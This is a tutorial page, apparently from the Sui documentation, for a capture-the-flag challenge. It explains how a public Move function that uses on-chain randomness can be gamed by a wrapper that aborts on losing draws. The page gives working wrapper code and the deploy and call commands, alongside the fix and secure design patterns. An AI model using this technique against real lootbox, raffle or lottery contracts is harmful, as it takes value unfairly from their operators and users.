

This example creates a lootbox application. The `open_lootbox` function has a 25% chance of producing a flag, costs 12 USDC per attempt, and is marked `public` instead of `entry`. Because it is `public`, you can call it from your own Move module, check the result, and abort the transaction if you lose. You only pay USDC when you win. 

## When to use this pattern

Use this pattern when you need to:

- Understand why randomness-consuming functions must be `entry` (not `public`) to prevent composition attacks.

- Audit Move contracts that use `sui::random` for exploitable visibility modifiers.

- Learn the difference between `public` and `entry` function visibility in the context of onchain randomness.

- Build secure lootbox, raffle, or lottery systems that resist outcome manipulation.

## What you learn

This example teaches:

- **Public vs entry visibility:** You can call an `entry` function only from a programmable transaction block (PTB), not from another Move module. You can call a `public` function from anywhere, including from other modules that inspect the result and conditionally abort.

- **Composition attack:** When a randomness-consuming function is `public`, an attacker deploys a wrapper module that calls it, checks the outcome, and aborts if unfavorable. The attacker pays gas only for the winning transaction. The transaction never transfers the USDC payment on losing attempts because the entire transaction rolls back.

- **Transaction atomicity:** Sui transactions are atomic. If any step aborts, all state changes (including coin transfers) revert. This is what makes the exploit free: the USDC payment inside `open_lootbox` reverts when the wrapper aborts.

- **The randomness lint:** Sui's Move compiler warns when a `public` function takes [`&Random`](/sui-stack/on-chain-primitives/randomness-onchain) as a parameter. The `#[allow(lint(public_random))]` annotation suppresses this warning, which is the contract author's mistake.

## Architecture

The challenge has 2 contracts: the deployed lootbox contract and the wrapper contract you deploy. The diagram below traces both the winning and losing paths.



The following steps walk through the exploit:

1. You call your wrapper module's exploit function, passing 12 USDC and the `Random` shared object.

2. The wrapper calls `ctf::lootboxes::open_lootbox`, which transfers the USDC to the recipient, generates a random value, and returns a `MaybeFlag`.

3. The wrapper immediately calls `ctf::lootboxes::extract_flag` on the `MaybeFlag`.

4. If the flag exists (25% chance), `extract_flag` returns it and the transaction succeeds. You receive the flag and the USDC payment goes through.

5. If the flag does not exist (75% chance), `extract_flag` aborts with `ENoFlag`. The entire transaction reverts, including the USDC transfer. You pay nothing.

6. Repeat until you win. On average, 4 attempts costs only gas for the winning transaction.

### How the vulnerability works

The root cause is the `public` visibility on `open_lootbox`. Sui's randomness documentation explicitly warns against this: functions that consume `&Random` should be `entry` functions so they can only be called at the top level of a PTB, not composed with other Move code that can inspect and react to the outcome.

A secure version uses `entry` visibility:

```move
// Secure: cannot be called from another Move module
entry fun open_lootbox(payment: Coin<USDC>, r: &Random, ctx: &mut TxContext): MaybeFlag {
    // same logic
}
```

With `entry`, no wrapper module can call `open_lootbox`, inspect the result, and abort. The caller must accept the outcome.

:::caution

Sui also enforces `PostRandomCommandRestrictions`: after a PTB command that uses `Random`, Sui restricts subsequent commands in the same PTB. Your wrapper must handle the entire flow (open and extract) in a single Move function call, not as separate PTB commands.

:::

## Prerequisites

<Tabs className="tabsHeadingCentered--small">
<TabItem value="prereq" label="Prerequisites">
- [x] [Install the latest version of Sui](/getting-started/onboarding/sui-install).

- [x] [Configure the Sui client](/getting-started/onboarding/configure-sui-client).

- [x] [Create a Sui address](/getting-started/onboarding/get-address).

- [x] [Get SUI Testnet tokens](/getting-started/onboarding/get-coins).

- [x] Download and install an IDE. The following are recommended, as they offer Move extensions:

    - [VSCode](https://code.visualstudio.com/), corresponding [Move extension](https://marketplace.visualstudio.com/items?itemName=mysten.move)

    - [Emacs](https://www.gnu.org/software/emacs/), corresponding [Move extension](https://github.com/amnn/move-mode)

    - [Vim](https://www.vim.org/download.php), corresponding [Move extension](https://github.com/yanganto/move.vim)

    - [Zed](https://zed.dev/), corresponding [Move extension](https://github.com/Tzal3x/move-zed-extension)
    
        Alternatively, you can use the [Move web IDE](https://www.playmove.dev/), which does not require a download. It does not support all functions necessary for this guide, however.

- [x] [Download and install Git](https://git-scm.com/downloads).

- [x] [Node.js](https://nodejs.org/) 18 or later

</TabItem>
</Tabs>

## Setup

Follow these steps to set up the challenge locally.

##### Step 1: Clone the repo

```bash
$ git clone https://github.com/MystenLabs/CTF.git
$ cd CTF
```

##### Step 2: Install script dependencies

```bash
$ cd scripts
$ pnpm install
$ pnpm init-keypair
```

Fund the generated address with Testnet SUI and USDC. For Testnet SUI, visit the [SUI Faucet](https://faucet.sui.io/). For USDC, use a faucet such as [Circle's USDC faucet](https://faucet.circle.com/) and select **Sui Testnet** as the network.

##### Step 3: Create your wrapper module

Create a new Move package that depends on the deployed CTF contract:

```bash
$ mkdir -p exploit/sources
$ cd exploit
```

Create a `Move.toml` that references the deployed CTF package:

```toml title='Move.toml'
[package]
name = "exploit"
edition = "2024"

[dependencies]
ctf = { git = "https://github.com/MystenLabs/CTF.git", subdir = "contracts", rev = "main" }

[addresses]
exploit = "0x0"
```

##### Step 4: Write the wrapper module

Create `sources/exploit.move` with a function that calls `open_lootbox` and `extract_flag` in sequence. If the flag does not exist, `extract_flag` aborts and the transaction reverts.

```move 
module exploit::exploit;

use sui::coin::Coin;
use sui::random::Random;
use usdc::usdc::USDC;
use ctf::lootboxes;

/// Calls open_lootbox then extract_flag atomically.
/// If the lootbox has no flag, extract_flag aborts and the
/// transaction reverts, so the USDC payment is never spent.
entry fun loot_or_revert(
    payment: Coin<USDC>,
    r: &Random,
    ctx: &mut TxContext,
) {
    let maybe = lootboxes::open_lootbox(payment, r, ctx);
    let flag = lootboxes::extract_flag(maybe);
    transfer::public_transfer(flag, ctx.sender());
}
```

##### Step 5: Deploy your wrapper

```bash
$ sui client switch --env testnet
$ sui move build
$ sui client publish --gas-budget 200000000
```

Record your package ID.

## Run the example

Call your deployed wrapper directly through the CLI:

```sh
$ sui client call --package PACKAGE_ID --module exploit --function loot_or_revert --args USDC_COIN_OBJECT_ID --gas-budget 50000000 
```

To get your USDC_COIN_OBJECT_ID, use the command `sui client objects YOUR_ADDRESS` and look for the object ID for `usdc::USDC`.

```
│ │ objectId   │  0xc0efd98eae083882d869c9e005d1696f10707bbdfd6f6ddcc2971f1ec98ba245       < ---- Object ID  │ │
│ │ version    │  │ │
│ │ digest     │ 2k1nY9PwUeNEzp3awh3jQoVvmApTuDhVtMh6bry6C8WL │ │
│ │ objectType │ 0x0000000000000000000000000000000000000000000000000000000000000002::coin::Coin<0xa1ec7fc00a6f40db9693ad1415d0c193ad3906494428cf252621037bd7117e29::usdc::USDC>  │ │
```

On average, you win within 4 attempts. Each losing attempt costs only gas (no USDC), and the winning attempt costs 12 USDC plus gas.

Verify the flag:

```bash
$ sui client objects YOUR_ADDRESS
```

You should see a `flag::Flag` object.

## Key code highlights

The following snippets are the parts of the code worth reading carefully.

### `open_lootbox` function

The function is `public` instead of `entry`, which allows other modules to call it and react to the outcome.

<ImportContent source="contracts/sources/lootboxes.move" mode="code" org="MystenLabs" repo="CTF" fun="open_lootbox" />

The `#[allow(lint(public_random))]` annotation suppresses the compiler warning about `public` functions consuming `&Random`. The function takes exactly 12 USDC, transfers it to a fixed address, generates a random value between 1 and 100, and returns a `MaybeFlag` with a flag if `random_value % 4 == 0` (25% chance). Because it is `public`, your wrapper module can call it, check the result, and abort if empty.

### `extract_flag` abort mechanism

The `extract_flag` function aborts if the `MaybeFlag` does not contain a flag, which is what makes the exploit free.

<ImportContent source="contracts/sources/lootboxes.move" mode="code" org="MystenLabs" repo="CTF" fun="extract_flag" />

The function destructs the `MaybeFlag`, asserts the `Option` is `Some`, and extracts the flag. When the option is `None`, it aborts with `ENoFlag`. In your wrapper module, calling `extract_flag` right after `open_lootbox` turns the 75% losing outcome into a transaction abort, reverting the USDC payment.

### `MaybeFlag` wrapper struct

The `MaybeFlag` struct wraps an optional flag in an owned object.

<ImportContent source="contracts/sources/lootboxes.move" mode="code" org="MystenLabs" repo="CTF" struct="MaybeFlag" />

The `Option<flag::Flag>` field is `Some` on a win and `None` on a loss. Because `MaybeFlag` has `key` and `store` abilities, it can be returned from `open_lootbox`, passed to `extract_flag`, and manipulated across function boundaries within a single transaction.

## Common modifications

- **Fix the vulnerability:** Change `open_lootbox` from `public fun` to `entry fun` and remove the `#[allow(lint(public_random))]` annotation. This prevents any other module from calling it.

- **Separate payment from randomness:** Split the lootbox into 2 steps: a `purchase` function that takes USDC and returns a `Ticket`, and an `entry` `open` function that takes the ticket and `&Random`. The payment is committed before the random outcome is known.

- **Commit-reveal pattern:** Have the user commit to opening (and pay) in 1 transaction, then reveal the outcome in a separate transaction after the random seed is determined. This makes abort-based filtering impossible.

- **Lower the win rate for testing:** Change `random_value % 4 == 0` to a smaller probability (for example, `random_value == 1` for 1% chance) to make brute-force exploitation slower in a CTF setting.

- **Add event emission:** Emit an event on every lootbox open (win or lose) so analytics can detect exploitation patterns like repeated single-call transactions from the same address.

## Troubleshooting

The following sections address common issues with this example.
### `PostRandomCommandRestrictions` error

**Symptom:** The transaction fails with an error about restricted commands after a random call.

**Cause:** Sui restricts what PTB commands can follow a command that uses `Random`. You cannot have separate `open_lootbox` and `extract_flag` calls as 2 PTB commands.

**Fix:** Combine both calls into a single Move function in your wrapper module. The entire flow (open + extract) must happen within 1 Move function call, not as separate PTB steps.

### `EInsufficientPayment` error

**Symptom:** The `open_lootbox` call aborts with error code `1`.

**Cause:** The USDC coin passed has a value other than exactly 12,000,000 (12 USDC with 6 decimals).

**Fix:** Split or merge USDC coins to produce exactly 12,000,000. Use `tx.splitCoins` in your PTB to split the exact amount from a larger coin.

### Wrapper module cannot find the CTF package

**Symptom:** `sui move build` fails with an unresolved dependency error for `ctf::lootboxes`.

**Cause:** The `Move.toml` dependency does not point to the correct CTF package, or the `rev` does not match the deployed version.

**Fix:** Verify the git URL, subdir, and rev in your `Move.toml` match the CTF repository. The deployed package address is `0x936313e502e9cbf6e7a04fe2aeb4c60bc0acd69729acc7a19921b33bebf72d03`.

### Cannot obtain Testnet USDC

**Symptom:** You do not have USDC on Testnet to pay for lootbox attempts.

**Cause:** USDC is not available from the standard Sui faucet.

**Fix:** Obtain Testnet USDC from a faucet. You must obtain Testnet USDC on the Sui Testnet. Obtaining Testnet USDC on other chains does not work on Sui.
